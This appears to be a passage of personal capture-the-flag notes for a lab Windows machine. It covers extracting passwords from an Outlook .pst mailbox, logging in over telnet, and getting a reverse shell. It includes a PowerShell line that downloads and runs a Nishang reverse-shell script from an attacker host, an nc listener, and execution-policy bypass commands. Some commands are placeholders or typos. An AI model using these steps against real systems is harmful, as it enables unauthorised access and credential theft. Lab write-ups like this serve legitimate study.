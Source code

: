 > - `cd tables`
> > ![[Pasted image 20221109225703.png]]
> 
> now you have the password so go extract the **zip file**
> You will get a **.pst file**; use **readpts** command to open it
> - `readpts <filename.pst>`
> - `cat "access control.mbox | grep password"`
> > ![[Pasted image 20221108214348.png]]
> 
> More graphical way of getting the credentials using MS Access
> > ![[Pasted image 20221108151547.png]]
> 
> Getting the password via outlook
> > ![[Pasted image 20221109230358.png]]

### b. Mode of Attack
> Now that you get the Passwords; just TELNET iinto thevictim with the found creds.
> > `telnet 10.10.10.98` and give the *username* and *password*
> 
> To change the shell to a good tty shell
> > ***Attacker***
> > > `cd pwd`
> > > `cp /opt/nishang/Shells/Invoke-PowerShellTcp.ps1 .`
> > > `mv Invoke-PowerShellTcp.ps1 nishang.ps1`
> 
> > ***Target***
> > > `powershell "IEX(New-Object Net.WebClient).downloadString('http://attacker_IP:PORT/nishang.ps1')"`
> > > - Thats it you ll get a reverse powershell.
>
> > **OR**
> >  
> > ***Attacker***
> > > `nc -lvnp port`
> > > `msfvenom asdasd`
> > > **OR**
> > > `msfvenom -p `
> > 
> > ***Target***  --> Executing a Powershell Command in Command Prompt
> > > `C:\> powershell [-noexit] -executionpolicy bypass/Unrestricted -File <Filename>`
> > > `C:\> PowerShell.exe -command "C:\temp\TestPS.ps1"`
> > > `C:\> PowerShell.exe Invoke-Command -ScriptBlock { "C:\temp\TestPS.ps1"}`
> > > `C:\> PowerShell.exe -ExecutionPolicy Unrestricted -command "C:\temp\TestPS.ps1"`


> User key
> > ![[Pasted image 20221109205501.png]]

---
---

## Priv_Esc
